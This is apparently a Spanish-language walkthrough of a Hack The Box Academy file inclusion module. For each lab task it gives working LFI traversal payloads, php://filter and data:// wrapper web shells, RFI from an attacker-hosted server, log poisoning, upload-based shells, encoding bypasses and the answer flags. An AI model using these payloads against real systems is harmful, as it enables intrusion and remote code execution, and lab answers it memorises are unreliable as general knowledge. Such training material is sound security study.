# File Inclusion

## File Disclosure

### Local File Inclusion (LFI)

1. **Using the file inclusion find the name of a user on the system that starts with "b"**

Visitamos la siguiente URL:

```
http://154.57.164.66:31065
```

<p align="center"> 

</p>

Clicaremos donde pone **spanish**, la url cambiará

<p align="center"> 

</p>

Luego escribiremos el siguiente comando, obtendremos el contenido del fichero **passwd**

```
http://154.57.164.66:31065/index.php?language=../../../../../../../../etc/passwd
```

<p align="center"> 

</p>

answer: **barry**

2. **Submit the contents of the flag.txt file located in the /usr/share/flags directory.**

Para obtener la flag, escribiremos lo siguiente en el navegador:

```
http://154.57.164.66:31065/index.php?language=../../../../../../../../usr/share/flags/flag.txt
```

<p align="center"> 

</p>

answer: **HTB{n3v3r_tru$t_u$3r_!nput}**

### Basic Bypasses

1. **The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt**

Probando diferente maneras de evadir la protección que tiene la pagina, escribiremos lo siguiente en el navegador:

```
http://154.57.164.71:30452/index.php?language=languages/....//....//....//....//etc/passwd
```

<p align="center"> 

</p>

Sabiendo como saltarnos la protección de la pagina obtenemos la flag

```
http://154.57.164.71:30452/index.php?language=languages/....//....//....//....//flag.txt
```

<p align="center"> 

</p>

answer: **`HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}`**

### PHP Filters 

1. **Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer**

En primer lugar, realizaremos fuzzing sobre la página para encontrar algún archivo donde puede recaer las credenciales de los usuarios.

```
gobuster dir -u http://154.57.164.83:32051 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html
```

<p align="center"> 

</p>

Encontramos **configure.php** archivo que intuyo donde pueden recaer las credenciales de los usuarios de la pagina. A continuación, escribimos lo siguiente en el navegador.

```
http://154.57.164.83:32051/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

- **`php://filter`**: Le dice a PHP que no se limite a abrir el archivo de forma normal, sino que abra un canal intermedio donde podemos aplicar "filtros" al contenido del archivo antes de que se muestre en pantalla.
- **`read=`**: Indica que el filtro se va a aplicar en el momento en que la aplicación intente **leer** el archivo (existen otros para escribir, pero aquí nos interesa leer).
- **`convert.base64-encode`**: Este es el filtro mágico. Le ordena a PHP: _"Coge todo el texto que esté dentro del archivo y conviértelo a formato Base64"_.
- **`resource=configure`**: Indica cuál es el archivo objetivo que queremos filtrar (en este caso, el archivo `configure.php`).

<p align="center"> 

</p>

Luego desciframos el siguiente código base64 para obtener la flag

```
echo PD9waHAKCmlmICgkX1NFUlZFUlsnUkVRVUVTVF9NRVRIT0QnXSA9PSAnR0VUJyAmJiByZWFscGF0aChfX0ZJTEVfXykgPT0gcmVhbHBhdGgoJF9TRVJWRVJbJ1NDUklQVF9GSUxFTkFNRSddKSkgewogIGhlYWRlcignSFRUUC8xLjAgNDAzIEZvcmJpZGRlbicsIFRSVUUsIDQwMyk7CiAgZGllKGhlYWRlcignbG9jYXRpb246IC9pbmRleC5waHAnKSk7Cn0KCiRjb25maWcgPSBhcnJheSgKICAnREJfSE9TVCcgPT4gJ2RiLmlubGFuZWZyZWlnaHQubG9jYWwnLAogICdEQl9VU0VSTkFNRScgPT4gJ3Jvb3QnLAogICdEQl9QQVNTV09SRCcgPT4gJ0hUQntuM3Yzcl8kdDByM19wbDQhbnQzeHRfY3IzZCR9JywKICAnREJfREFUQUJBU0UnID0 | base64 -d
```

<p align="center"> 

</p>

answer: **`HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}`**

## Remote Code Execution

### PHP Wrappers

1. **Try to gain RCE using one of the PHP wrappers and read the flag at /**

En esta actividad el objetivo será para extraer si el fichero **php.ini** para saber si el parámetro esta activado o no **allow_url_include**

```
curl http://154.57.164.66:31360/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

<p align="center"> 

</p>

Copiamos tu código base64 y lo guardamos en el archivo llamado **php.ini**

```
cat php.ini | base64 -d | grep 'allow_url_include'
```

<p align="center"> 

</p>

Comprobamos que el parámetro **allow_url_include** está activo.

>Por defecto en PHP moderno, **`allow_url_include` está en `Off`** por seguridad. Si en tu entorno está en **`On`**, el servidor web tiene permitido cargar un archivo de texto con código PHP desde internet (o desde la propia petición del usuario) e **interpretarlo y ejecutarlo** como si fuera código local del servidor.

Realizamos un Remote File Inclusion (RFI) con el siguiente comando pero pasandolo a base64, para que no lo detecte ningún WAF

```
echo '<?php system($_GET["cmd"]) ?>' | base64 
```

<p align="center"> 

</p>

Preparamos el comando para el navegador 

```
http://154.57.164.66:31360/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSkgPz4K&cmd=pwd
```

<p align="center"> 

</p>

```
http://154.57.164.66:31360/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSkgPz4K&cmd=ls+/
```

<p align="center"> 

</p>

```
http://154.57.164.66:31360/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSkgPz4K&cmd=cat+/37809e2f8952f06139011994726d9ef1.txt
```

<p align="center"> 

</p>

answer: **HTB{d!$46l3_r3m0t3_url_!nclud3}**

### Remote File Inclusion (RFI)

1. **Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /**

En esta actividad tendremos que preparar el siguiente código en .php

<p align="center"> 

</p>

Le damos permiso de ejecución y luego levantamos un puerto de escucha.

```
python3 -m http.server 80
```

<p align="center"> 

</p>

Comprobamos en el navegador que este abierto correctamente el puerto de escucha. En el navegador preparamos el siguiente comando

```
http://10.129.28.208/index.php?language=http://10.10.15.9/shell.php&cmd=whoami
```

<p align="center"> 

</p>

Comprobamos que funciona correctamente. Por tanto, intentamos listar la carpeta raíz.

```
http://10.129.28.208/index.php?language=http://10.10.15.9/shell.php&cmd=ls+/
```

<p align="center"> 

</p>

Luego, dentro de la carpeta **exercise** encontramos la flag del ejercicio.

```
http://10.129.28.208/index.php?language=http://10.10.15.9/shell.php&cmd=cat+/exercise/flag.txt
```

<p align="center"> 

</p>

answer: **99a8fc05f033f2fc0cf9a6f9826f83f4**

### LFI and File Uploads

1. **Use any of the techniques covered in this section to gain RCE and read the flag at /**

Crearemos el siguiente archivo

<p align="center"> 

</p>

Levantamos el puerto de escucha

```
python3 -m http.server 80
```

Luego, en el navegador verificamos que este ese archivo que nos interesa

```
http://10.10.15.9/
```

<p align="center"> 

</p>

En la siguiente url, subimos el archivo **.gif**

```
http://154.57.164.80:31281/settings.php
```

<p align="center"> 

</p>

En esa misma página, observamos el código para averiguar donde se guarda las fotos

<p align="center"> 

</p>

Se guarda en la carpeta **./profile_images/** Por tanto, realizaremos el siguiente comando para probar si funciona nuestra web shell

```
http://154.57.164.80:31281/index.php?language=./profile_images/shell.gif&cmd=whoami
```

<p align="center"> 

</p>

Ahora listamos la carpeta / 

```
http://154.57.164.80:31281/index.php?language=./profile_images/shell.gif&cmd=ls+/
```

<p align="center"> 

</p>

Por último, vemos el contenido del archivo.

```
http://154.57.164.80:31281/index.php?language=./profile_images/shell.gif&cmd=cat+/2f40d853e2d4768d87da1c81772bae0a.txt
```

<p align="center"> 

</p>

answer: **HTB{upl04d+lf!+3x3cut3=rc3}**

### Log Poisoning

1. **Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd**

En esta actividad usaremos la siguiente ruta, que es donde se registra los comandos que escribo para la página, que se visualice es una vulnerabilidad muy crítica porque el atacante sabrá que comandos habrás usado.

```
/var/log/apache2/access.log
```

Por tanto, en el navegador se vería tal que así

```
http://154.57.164.65:30329/index.php?language=/var/log/apache2/access.log
```

<p align="center"> 

</p>

Interceptamos esta misma pagina con burpsuite y lo mandamos al **repeater**, lo que hay en el parámetro **User-Agent** lo borramos escribimos esto:

<p align="center"> 

</p>

**Lo pongo en imagen, ya que el antivirus me lo detecta como virus, y eso da lugar a borrar todos mis apuntes :(**

Además al **access.log** le añadimos lo siguiente:

```
/index.php?language=/var/log/apache2/access.log&cmd=pwd
```

Por tanto, quedaría algo como así

<p align="center"> 

</p>

Si le damos al botón enviar recibiremos la siguiente respuesta:

<p align="center"> 

</p>

answer: **/var/www/html**

2. **Try to use a different technique to gain RCE and read the flag at /**

Luego, lo siguiente que haremos es listar la carpeta / del sistema

```
/index.php?language=/var/log/apache2/access.log&cmd=ls+/
```

<p align="center"> 

</p>

Luego le damos al botón **send** y veremos el siguiente resultado

<p align="center"> 

</p>

Por último visualizamos el contenido 

```
/index.php?language=/var/log/apache2/access.log&cmd=cat+/c85ee5082f4c723ace6c0796e3a3db09.txt
```

<p align="center"> 


</p>

answer: **HTB{1095_5#0u1d_n3v3r_63_3xp053d}**

## Automation and Prevention

### Automated Scanning

1. **Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt**

En esta ocasión lo que haremos es buscar el LFI mediante fuerza bruta, usaremos el diccionario **LFI-Jhaddix.txt** en mi kali se encuentra en la siguiente ruta:

```
locate LFI-Jhaddix.txt
```

<p align="center"> 

</p>

Luego usaremos la herramienta **ffuf** para conseguir que LFI le es vulnerable.

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ \
     -u 'http://154.57.164.68:32372/index.php?view=FUZZ' \
     -fs 1935
```

<p align="center"> 

</p>

Luego en el navegador, escribimos lo siguiente:

```
http://154.57.164.68:32372/index.php?view=../../../../../../../../../../../../../../../../../../../../../../etc/passwd
```

<p align="center"> 

</p>

Por tanto, para conseguir la flag.txt haremos: 

```
http://154.57.164.68:32372/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt
```

<p align="center"> 

</p>

answer: **HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}**

### File Inclusion Prevention

1. **What is the full path to the php.ini file for Apache?**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

Iniciamos sesion en el protocolo **ssh**

```
ssh htb-student@10.129.29.112
```

Luego, mediante la herramienta **find** intentamos buscar el archivo **php.ini**

```
find / -name "*php.ini" 2>/dev/null
```

<p align="center"> 

</p>

answer: **/etc/php/7.4/apache2/php.ini**

2. **Edit the php.ini file to block system(), then try to execute PHP Code that uses system. Read the /var/log/apache2/error.log file and fill in the blank: system() has been disabled for ________ reasons.**

answer: **security**

## Skills Assessment

### Skills Assessment

1. **Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.**

```
http://154.57.164.80:30607/
```

Observamos el código fuente de la página.

<p align="center"> 

</p>

Por tanto, quedaría así:

```
http://154.57.164.80:30607//api/image.php?p=a4cbc9532b6364a008e2ac58347e3e3c
```

visitamos la pagina, nos aparecerá lo siguiente:

<p align="center"> 

</p>

A continuación vamos a fuzzear a ver si esta página tiene un LFI, por tanto el comando quedaría de la siguiente manera.

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ \
     -u 'http://154.57.164.80:30607/api/image.php?p=FUZZ' \
     -fs 1935
```

<p align="center"> 

</p>

La clave esta en donde el size es grande, porque eso significará que lleva contenido el LFI. Por otro lado, para saber si funciona o no, tenemos que realizar la prueba mediante la herramienta **curl**

```bash
curl http://154.57.164.80:30607//api/image.php?p='....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd'
```

<p align="center"> 

</p>

Una vez descubierto el **LFI**, mi siguiente objetivo seria leer archivos como **contact.php** o
**apply.php** para ver si leo alguna vulnerabilidad. En esta ocasión tuve que probar varias veces para dar con la tecla y leer dicho archivo.

```
curl http://154.57.164.80:30607//api/image.php?p='....//contact.php'   
```

En el siguiente **.php** me encuentro un párrafo de lo más interesante.

<p align="center"> 

</p>

**¿Por qué es peligroso este código?**

El peligro de este código radica en un **fallo de lógica en el orden de las operaciones**: el desarrollador intenta filtrar la entrada del usuario **antes** de que los datos hayan sido completamente decodificados.

Los 3 fallos clave paso a paso:

* **Confianza en un filtro incompleto (`str_contains`):** El desarrollador asume que bloqueando los caracteres literales `.` y `/` ya no se puede hacer un _Directory Traversal_ (`../`). No tiene en cuenta que esos caracteres pueden viajar camuflados en otros formatos.
* **Decodificación tardía (`urldecode` en el `else`):** Este es el error catastrófico. Al aplicar `urldecode()` **después** de haber pasado el filtro de seguridad, la aplicación procesa de nuevo el texto y "reconstruye" los caracteres prohibidos (`.` y `/`) dentro del servidor, justo antes de ejecutar la inclusión.
* **Concatenación directa en funciones críticas (`include`):** Al final del código, la variable `$region` (que ya contiene los puntos y barras reconstruidos) se mete directamente en el `include`:

```php
include "./regions/" . $region . ".php";
```

Como el sistema no valida el resultado final, el atacante logra saltar fuera de la carpeta `./regions/` y leer cualquier archivo del sistema o ejecutar su webshell.

En conclusión:

"Hago la doble codificación (`%252f`) porque el primer `%25` se decodifica en el viaje web convirtiéndose en `%2f`. Como `%2f` no es una barra literal `/`, engaña al `str_contains`. Luego, el `urldecode` del código convierte ese `%2f` en la barra real que necesito para moverme por las carpetas."

Por otro lado, investigado el código fuente de un formulario de la página que permite subir archivo...

```
view-source:http://154.57.164.80:30607/apply.php
```

<p align="center"> 

</p>

intento ver su contenido, por si tengo que tener algo en cuenta:

```
curl http://154.57.164.80:30607//api/image.php?p='....//api//application.php'
```

<p align="center"> 

</p>

En el apartado **$target_file** nos dice básicamente que el archivo que subimos pasa su nombre a **md5**

A continuación, teniendo todos los datos recopilado para realizar el ataque, nos iremos al apartado **apply** y rellenaremos el **form** y lo enviaremos.

<p align="center"> 

</p>

subiremos un archivo llamado **shell.php** que tendrá el siguiente contenido.

<p align="center"> 

</p>

Recordemos que el archivo se encontrará en la siguiente ruta:

```
../uploads/
```

Ahora bien el nombre del archivo debe estar en formato **md5**

<p align="center"> 

</p>

Por tanto la ruta estaría quedando así:

```
../uploads/fc023fcacb27a7ad72d605c4e300b389
```

Luego usaremos la herramienta web llamada [cibershef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)URL_Encode(true)&input=Li4vdXBsb2Fkcy9mYzAyM2ZjYWNiMjdhN2FkNzJkNjA1YzRlMzAwYjM4OQ)

<p align="center"> 

</p>

Recordemos que la ruta tiene que estar 2 veces urlcoleado. Por tanto esta ruta `../uploads/fc023fcacb27a7ad72d605c4e300b389` pasaría a **%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389**

Por último en el navegador iría de la siguiente manera:

```
http://154.57.164.80:30607/contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=ls%20/
```

<p align="center"> 

</p>

```
http://154.57.164.80:30607/contact.php?region=%252E%252E%252Fuploads%252Ffc023fcacb27a7ad72d605c4e300b389&cmd=cat%20/flag_09ebca.txt
```

<p align="center"> 

</p>

answer: **eedbb78d4800aa45573840ed6bd2d1e3**